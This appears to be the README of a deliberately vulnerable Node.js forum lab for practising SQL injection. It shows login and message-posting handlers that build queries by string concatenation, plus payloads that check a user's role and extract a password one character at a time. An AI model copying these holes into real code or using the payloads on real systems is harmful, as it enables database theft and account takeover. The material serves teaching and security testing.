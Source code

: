 # Forum with Blind SQL Injection

## Setup

1. Install dependencies:

```
npm install
```

2. Initialize the database with sample data:

```
node setup-db.js
```

3. Start the server:

```
npm start
```

4. Access the forum at: http://localhost:3000

## Vulnerabilities

### 1. SQL Injection in Login Page

The login page is also vulnerable to SQL injection. User inputs for username and password are directly concatenated into the SQL query without sanitization:

```javascript
app.post("/login", (req, res) => {
  const { username, password } = req.body;

  // VULNERABLE: Blind SQL injection in the login query
  // directly concatenating user input in SQL query
  const query = `SELECT * FROM users WHERE username = '${username}' AND password = '${password}'`;

  db.get(query, (err, user) => {
    // ...response handling...
  });
});
```

Test message' AND (SELECT role FROM users WHERE username='PaulAtreides')='admin' AND '1'='1

### 2. Blind SQL Injection in Message Posting

The `/post` endpoint for posting new messages is also vulnerable to blind SQL injection. This can be exploited to extract data from the database:

```javascript
app.post("/post", (req, res) => {
  const { username, content, planet } = req.body;

  // VULNERABLE: Blind SQL injection in the message posting
  const query = `INSERT INTO messages (username, content, planet) 
                  VALUES ('${username}', '${content}', '${
    planet || "Unknown"
  }')`;

  db.run(query, (err) => {
    // ...response handling...
  });
});
```

#### Example Attack

When posting a message, you can use the following payload in the content field to extract password information character by character:

```
Test', (SELECT CASE WHEN (SELECT substr(password,1,1) FROM users WHERE username='PaulAtreides')='m' THEN 'success' ELSE 'fail' END)) --
```

This injection:

1. Closes the current string with a quote and adds a comma
2. Uses a CASE statement to check if the first character of Paul's password is 'm'
3. Comments out the rest of the query

If the first character is 'm', the query executes successfully. If not, it fails due to SQL syntax errors.

To extract the full password, modify the position (change `1,1` to `2,1` for second character) and try different characters.
